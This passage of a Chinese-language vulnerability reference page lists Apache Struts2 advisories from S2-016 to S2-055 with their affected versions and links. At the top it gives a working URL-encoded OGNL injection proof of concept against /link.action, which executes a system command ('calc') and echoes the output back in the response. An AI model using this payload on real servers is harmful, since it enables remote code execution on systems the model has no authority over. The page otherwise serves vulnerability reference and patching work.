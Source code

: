  POC

	/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('calc').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D


![](http://opmi2ydgh.bkt.clouddn.com//18-1-9/26707957.jpg)

##### S2-016

影响版本：Struts 2.0.0 - Struts 2.3.15

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-016)

[S2-016](http://www.freebuf.com/vuls/11220.html)


##### S2-032

影响版本： Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)


[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-032)

[Apache Struts2 s2-032技术分析及漏洞检测脚本](http://blog.topsec.com.cn/ad_lab/apache-structs2-s2-032%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90%E5%8F%8A%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B%E8%84%9A%E6%9C%AC/)


##### S2-037

影响版本：Struts 2.3.20 - Struts Struts 2.3.28.1

[官网](https://cwiki.apache.org/confluence/display/WW/S2-037)



##### S2-045


影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

[官网](https://cwiki.apache.org/confluence/display/WW/S2-045)

##### S2-052

影响版本： Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

[官网](https://cwiki.apache.org/confluence/display/WW/S2-052)

##### S2-053

影响版本： Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

[官网](https://cwiki.apache.org/confluence/display/WW/S2-053)

##### S2-055 

影响版本：Struts 2.5 - Struts 2.5.14

[官网](https://cwiki.apache.org/confluence/display/WW/S2-055)
